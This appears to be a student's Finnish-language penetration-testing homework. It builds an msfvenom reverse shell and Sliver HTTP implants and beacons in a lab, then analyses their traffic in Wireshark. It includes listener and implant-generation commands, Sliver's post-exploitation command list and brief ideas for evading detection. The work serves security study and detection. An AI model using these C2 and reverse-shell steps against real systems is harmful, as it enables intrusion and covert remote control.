

<!--- metadata

title: H6 - Simpukoita
date: 26.09.2025
slug:
id: ICI005AS3A-3005
week: Week 39
summary: Harjoituksessa tutkittiin reverse shell -yhteyksiä ja niiden tunnistamista snifferillä, sekä Sliverin käyttöä ja sen yhteyksien analysointia. Lisäksi kokeiltiin Sliverin eri ominaisuuksia ja asetuksia, kuten beaconin konfigurointia ja hyökkäystoimintoja kohdekoneessa.
tags: [ "ICI005AS3A-3005", "Tunkeutumistestaus"]

--->

## a) Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Tässä lähdin heti liikkeelle luomalla payloadin. Luotiin täysin samalla tavalla kun viime viikolla opittiin. Tässä tarkensin `-p` payloadin, `-f` formaatin, tässä kyseessä oli linux kohde niin valitisin `elf` tiedosto tyypin ja lopuksi `-o` määritti tiedosto nimen.


Sitten piti siirtää tämä tidosto toiselle tietokoneelle. Avasin toiselle tietokoneelle ssh serverin jotta voisin käyttää `scp` komentoa. Sitten ku se oli auki siirsin tiedoston.


Tämän jälkeen tein kuuntelijan msfconsolessa. Käytännössä samat komennot ku viime viikolla.

```sh
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST 192.168.67.129
set LPORT 3440
run
```

Sitten kun olin saanut kuuntelijan käyntiin, käynnistin Wiresharkin. Kun Wireshark kuunteli oikeaa verkkoa, ajoin payloadin kohde koneella ja Wireshark alkoi laulamaan. Yhteys muodostui, sain shellin aikaseksi. Sitten analysoin vain liikennettä, mitä tapahtui kohde koneen ja hyökkäys koneen välillä.


Kuvassa on heti muutamia huomioita, mistä tunnistaa, että yhteys muodostui. Toisella rivillä oleva `[SYN, ACK]` kertoo meille että yhteys muodostui kahden laitteen välillä (`3-way handshake`).

Kun alku yhteys on muodostunut, voidaan huomata että hyökkäys kone `HK - 192.168.67.129` alkoi lähettämään `[PSH, ACK]` paketteja, eli dataa kohde koneelle. Tämä on kyseinen payload, mikä luo koko reverce shellin kahden koneen välille.


Seuraavassa kuvassa voidaan huomata, että `[PSH, ACK]` pyyntö hyökkäys koneelta lähettää komento pyynnön. Data kohdassa nähdään, mikä tämä komento on ollut ja se oli `ls` komento minkä mä aloitin reverce shellissä.

`Rivillä 21` voidaan huomata, että kohde kone lähetti jotakin dataa takaisin hyökkäys koneelle.


Kun tarkastellaan tätä tarkemmin, niin kohde kone lähetti vastauksen komennolle ls. Ja sieltä se palautti koko kansion sisällön, mitä me komennolla ls pyydettiin. Tässä tapauksessa kansiossa näkyi vain tämä payload tiedosto.Muita ilmiselviä huomautukisa ovat IP osoitteet. Niistä voi heti päätellä, mitä tässä tapahtuu.

Miten tätä havaitsemista voisi sitten tehdä vaikeammaksi, olisi reitittää data muiden laitteiden kautta, jotta IP osoitteet eivät olisi niin ilmiselviä. Muutenkin tämän haittaohjelman voisi piilottaa jonkun muun ohjelman sisälle, jotta kaikki verkko liikenne olisi helpompi piilottaa oikeeseen verkkoliikenteeseen. Jos payload olisi edistyneempi, niin tässä voisi käyttää ajoituksia, eli kaikki pyynnöt eivät tapahdu heti, vaan niissä on ehtoja, millon ne toteutuvat, esim. kun joku ohjelmisto tekee jotakin yms.

---

## b) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä

Lähdin tekemään linux payloadia komennolla `generate --os linux --http 192.168.67.129:80`. Tässä `--os` tarkentaa käyttöjärjestelmän, `--http` tarkentaa osoitteen  mitä käytetään yhteyden luomisessa.


Sitten siirettiin tiedosto samalla `scp` komennolla kuin aikasemmin ja käynnistettiin kuuntelija sliverissä komennolla `http -L 192.168.67.129`. `-L = LHOST`.

Ja yhteys saadaan toimimaan kun haitallinen tiedosto vain ajetaan kohde koneella.


---

## c) Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?

Tässä kun lähdin analysoimaan, niin liikenne oli hyvin erillaista msfvenomiin verrattuna. Tässä liikenne käytti juuri tuota HTTP protokollaa. No kuitenkin, mistä ominaisuuksista yhteyden voi havaita?

Tässä toteutuu sama `3-way handshake` niin kuin myös msfvenomissa, joten se on ensimmäinen vihje. Ja siihen liittyvät IP osoitteet myös. Seuraavaksi aloin tarkastelemaan liikennettä ja mitä dataa yhteyksien välillä lähetettiin. Tein saman `ls` testin, mutta tällä kertaa en löytänytkään suoraa tekstiä.

Melko nopeasti tajusin että data olo encodattu. Tämä selvisi nr 72 HTTP pyynnössä. Tässä nimittäin oli lähetetty jotakin dataa hyväksytysti, mutta se ei ollut plain text, vaan selkeästi encodattu jollakin.


Tämä encodaus vastaisi suunilleen myös sitä sisällön kokoa. Tässä kuvassa se ei näy mutta tällä datalla oli `Content Length: 110`, mitä voisi käyttää arvioimaan sisällön kokoa, mikä vastaisi sitten itsessään suunilleen outputtia mitä sain sliverin terminaliin.

En ollut ihan varma pitääkö mun hypöteesi paikkaansa mutta tarkistin vielä ihan kättelyn alussa toisesta hyväksytystä tapahtumasta, niin siinä huomasin että mainittiin ``x-gzip` eli sitä varmaan käytetään datan maskeeraamiseen.


Lopuksi sliver yhteys tekee koko ajan random pyyntöjä, mutta palauttaa `HTTP1/1 204 No Content` viestin. Se on yksi yhdistävä tekijä. Jokatapuksessa, sliverissä on paljon edistyneemmät menetelmät käytössä, kuin msfvenomissa.

---

## d) Sliverillä voit muuttaa yhteyden ominaisuuksia. Kokeile ja näytä esimerkkejä. Muista todeta testein, että muutokset toimivat

En ole ihan varma ymmärsinkö oikein, mutta tässä haetaan vaihtoehtoisia yhteys tapoja, sille minkä mä tein ensimmäisenä. Tulin tähän tulokseen koska tietääkseni sliverin olemassa olevia implantteja ei pysty muuttamaan mitenkään.

Pienen selvittelyn jälkeen kuitenkin selvisi, että `Beacon` ominaisuuksia pystyy muokkaamaan, niin koska olin ensimmäisessä tehtävässä tehnyt vain implantin niin lähdin nyt tekemään kokonaista beaconia.

Aloitin generoimalla komennolla: `generate beacon --os linux --http 192.168.67.129:80 --jitter 60` ja siirsin sen suoraan kohde koneelle. Tähän olin nyt lisännyt eri lippuja. `--jitter 60` kertoo kuinka usein se ottaa yhteyttä serveriin, oletus on 30s niin päätin tehdä siitä minuutin.

Kun tämä oli käynnissä niin olin melko hukassa, mutta huomasin ainakin että --jitter 60 teki kometojen suorittamisesta paljon hitaampaa. Sitten lähdinkin muuttamaan asetuksia.

Eli kun mä käytin beaconia `use [beacon_id]` niin sen jälkeen mä pystyin uudelleen configuroimaan tätä kyseistä beaconia, päätin pienentää --jitterin takaisin 30s. Tämä tapahtui komennolla `reconfig -j 30s`


En ainakaan huomannut missään mitään eroa niin päätin kokeilla muitakin asetuksia ja päädyin tekemään kokonaan uuden beaconin. Muutin nyt `-i 1s` niin beacon päivitti itsensä paljon useammin. Kuvassa näkyy aika ennen muutosta ja aika jälkeen muutoksen.


Tämä tehtävä kuitenkin hämmensi mua aika paljon, kun sliverin kaikki ominaisuudet ja sen käyttö on vieläkin vähän hämärää mulle. Luulen että sain vastattuu kuitenkin tähän kysymykseen.

---

## e) Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista

```md
Sliver:
=======
  cat                Dump file to stdout
  cd                 Change directory
  chmod              Change permissions on a file or directory
  chown              Change owner on a file or directory
  chtimes            Change access and modification times on a file (timestomp)
  close              Close an interactive session without killing the remote process
  download           Download a file
  execute            Execute a program on the remote system
  execute-shellcode  Executes the given shellcode in the sliver process
  extensions         Manage extensions
  getgid             Get session process GID
  getpid             Get session pid
  getuid             Get session process UID
  ifconfig           View network interface configurations
  info               Get info about session
  interactive        Task a beacon to open an interactive session (Beacon only)
  kill               Kill a session
  ls                 List current directory
  memfiles           List current memfiles
  mkdir              Make a directory
  msf                Execute an MSF payload in the current process
  msf-inject         Inject an MSF payload into a process
  mv                 Move or rename a file
  netstat            Print network connection information
  ping               Send round trip message to implant (does not use ICMP)
  pivots             List pivots for active session
  portfwd            In-band TCP port forwarding
  procdump           Dump process memory
  ps                 List remote processes
  pwd                Print working directory
  reconfig           Reconfigure the active beacon/session
  rename             Rename the active beacon/session
  rm                 Remove a file or directory
  rportfwd           reverse port forwardings
  screenshot         Take a screenshot
  shell              Start an interactive shell
  shikata-ga-nai     Polymorphic binary shellcode encoder (ノ ゜Д゜)ノ ︵ 仕方がない
  sideload           Load and execute a shared object (shared library/DLL) in a remote process
  socks5             In-band SOCKS5 Proxy
  ssh                Run a SSH command on a remote host
  terminate          Terminate a process on the remote system
  upload             Upload a file
  whoami             Get session user execution context


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki
```

Tässä näkyy kaikki mitä on mahdollista tehdä sliverillä. Esimerkiksi screenshot on aika hyödyllinen, minkä avulla saa varmasti tietoa kohteestaan, etenkin jos niitä ottaa säännöllisin väliajoin. Tässä esimerkki kuvasta minkä otin kohde koneella:



Toinen esimerkki, mikä on erittäin hyödyllinen myös on `execute` komento, millä pystyy avaamaan mitä tahansa sovelluksia ja tiedostoja kohde koneella. Tätä on melko vaikea demonstroida kuvankaapauksella, mutta komennolla `execute xdg-open /home/kali/malware/example.txt`, ja kun komento oli suoritettu onnistuneesti se avasi kyseisen tiedoston. Mielenkiintoista tässä oli, että kun suljin yhteyden terminalissa, niin tämä text bad sulki myös itsensä automaattisesti.


Ja vielä viimeinen, mikä jäi itselle silmään oli `execute-shellcode` komento. Tätä en kokeillu, koska menee mun osaamis tason yli, mutta ymmärrän, että sen avulla voi ajaa koodia silleen, että se ei ikinä näy missään levyllä tai prosesseissa, mikä vaikuttaa erittäin pelottavalta puolustavasta näkökulmasta.

Muistiinpanot: Jos haluat siirtää tiedostoja Linuxista Windowsiin, avaa pyhton-palvelin tiedostohakemistossa, jossa siirrettävä tiedosto on.

```sh
python3 -m http.server 8000
```

Siirry sitten Windows PowerShelliin ja kirjoita komento:

```sh
curl http://server_IP_address:8000/filename.txt -o C:\path\to\where\you\want\the\filename.txt
```

Sliver tehtävissä käytin ChatGPT:n apua selittäkseen sliverin eri toimintoja, miten työkalua käytetään ja yleisesti ongelmatilanteissa. Teksti taikka vastaukset ei ole kuitenkaan generoitu tekoälyllä.

---

### Lähteet

#### 1. Tero Karvinen 2025. Tunkeutumistestaus 2025 alkusyksy. Luettavissa: [[https://terokarvinen.com/tunkeutumistestaus/]] Luettu: 26.9.2025

#### 2. Robin Niinemets 2025. H5 - Syyskuu2025! Luettavissa: [[https://rbin.dev/diary/entries/diary.html?entry=TT25-005&week=Week%2038]] Luettu 26.9.2025
